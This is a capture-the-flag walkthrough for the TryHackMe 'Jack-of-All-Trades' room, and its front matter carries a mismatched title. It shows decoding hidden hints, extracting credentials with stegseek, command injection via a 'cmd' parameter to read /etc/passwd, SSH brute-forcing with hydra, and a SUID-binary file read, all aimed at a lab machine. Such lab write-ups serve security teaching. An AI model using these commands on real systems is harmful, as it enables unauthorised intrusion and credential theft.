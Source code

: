 ```yaml
---

title: Walkthrough - Year of the Rabbit
published: false
---
```


Securit-Tay, Conference, Challenge, Boot-to-Root. Boot-to-root originally designed for Securi-Tay 2020.

[https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)

* * *

## Notes

> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

- nmap give us two ports an ssh and a http server that are swapped around. 

```
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Linux 3.12 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- in order to view the site on port 22 in firefox we have to add this string to about:config ``network.security.ports.banned.override``.

- viewing the source code we find a page ``/recovery.php`` and a base64 encoded text, ``UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==``

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

- lets save this to a list for later ``echo "u?WtKSraq" > passwords.list``

- we also find another comment on recovery.php 

```
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

- decode from base32

```
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

- and decode from ascii

```
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

- and finally ROT-13

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- which is a hint to use steganography to find the creds for the recovery.php page
- a few images on the homepage one of which is stego.jpg. lets check them out.
- we can use passwords.list to get the cred.txt from stego

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- header.jpg

```
stegseek header.jpg passwords.list 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "u?WtKSraq"
[i] Original filename: "cms.creds".
[i] Extracting to "header.jpg.out".

┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Jack-of-All-Trades]
└─$ cat header.jpg.out        
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

now we get to a page where we can possibly lfi using the paramater ``cmd``

- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=id``
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=ls%20/home`` - ``jack jacks_password_list jacks_password_list``
- ``view-source:http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list`` and save to the password.list
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

- ``hydra -l jack -P passwords.list 10.10.86.12 -s 80 ssh``

- ``[80][ssh] host: 10.10.86.12   login: jack   password: ITMJpGGIqg1jn?>@``

* * * 

## What is the user flag?

![](/assets/jack-of-all-trades05.png)

- ``scp -P 80 jack@10.10.86.12:/home/jack/user.jpg .``

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` - ``/usr/bin/strings`` has suid set so we can read any file on the system.

- ``strings /root/root.txt``

* * * 

